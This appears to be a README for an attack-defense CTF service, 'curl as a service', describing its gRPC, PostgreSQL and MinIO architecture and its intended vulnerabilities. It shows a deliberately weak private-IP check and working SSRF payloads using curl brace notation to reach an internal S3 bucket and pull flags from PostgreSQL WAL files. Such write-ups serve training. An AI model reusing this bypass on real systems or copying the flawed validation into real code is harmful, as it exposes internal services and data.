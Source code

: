 # CAAS

## Description

CAAS (curl as a service) service is a grpc service written in python. It allows clients to create profiles, enqueue curl's tasks and fetch results from the service. Workers are polling for tasks with URL info and do a GET request via `curl`. Curl's results are stored in MinIO S3 server. PostgreSQL is used as a database and job queue server.

## Architecture

```
        .------------.              .---------------.
        |            |              |               |
        |   client   |-----gRPC---->|  application  |
        |            |              |               |
        '------------'              '---------------'
                                         |  |
                                         |  |
  .-----------------------.              |  |        .-----------.
  |                       |              |  |        |           |
  |  PostgreSQL           |<---enqueue---'  '--get-->| MinIO S3  |
  |                       |                          |           |
  |                       |                          |           |
  |                       |                          |           |
  |                       |-----------WALs---------->| buckets:  |
  |  archive_mode = on    |                          | curl/     |
  |  archive_timeout = 60 |                          | wal/      |
  |                       |                          |           |
  |                       |<-dequeue--.     .--put-->|           |
  |                       |           |     |        |           |
  '-----------------------'           |     |        '-----------'
                                      |     |
                                      |     |
                                      |     |
                               .---------------.             .-,(  ),-.
                             .---------------. |          .-(          )-.
                             |               | |-------> (    internet    )
                             | cURL executor | |          '-(          ).-'
                             |               |-'              '-.( ).-'
                             '---------------'
```

## Flags

Flags are stored in table `users` in a JSON field `comment` at `profile` column.

## Vulns

There are several bugs in this service:

1. Non strict validation for incoming URL in this code:

```
host = urlparse(request.url).hostname
ip = ipaddress.IPv4Address(host)
if ip.is_private:
    raise Exception("Invalid host")
```

You can pass multiple URLs in a cURL braces notation like this `http://yandex.{ru,ua,by}`, which was parsed by `urlparse` as 1 URL with hostname `yandex.{ru,ua,by}`. Also you can pass user credentials and query string or fragment to avoid using `{` and `}` in hostname which was parsed by `urlparse`. For example:

```
>>> u = urlparse("http://{er:pass@yandex.ru#,yandex.by}")
>>> u.username
'{er'
>>> u.hostname
'yandex.ru'
>>> u.fragment
',yandex.by}'
>>>
```

But `curl` will detect 2 URL and make 2 requests: to yandex.ru with basic auth `{er:pass` and to yandex.by:

```
$ curl -v -s http://{er:pass@yandex.ru#,yandex.by} 2>&1 | grep Host
> Host: yandex.ru
> Host: yandex.by
```

So, for now, you can pass 2 URL in gRPC query, first from the internet (to bypass `ip.is_private` check) and second from the docker network.

2. There is a public bucket `wal` where PostgreSQL archives WAL files.

If passing URL to service like this `http://{0@1.1.1.1#,s3:9000}/wal/000000010000000000000007.gz`, you can grab WAL file `000000010000000000000007.gz` which contains a flag, as well as all other data changes in PostgreSQL. The next step is to get a flag from WAL file, the simplest way might look like this:

```
$ gunzip -c 000000010000000000000007.gz | strings -n32 | grep -P -o '\w{31}='
841WOR1PRTHNB4O5E6IY874A7E8558B=
```

List of all WAL files you can get via URL `http://s3:9000/wal`.
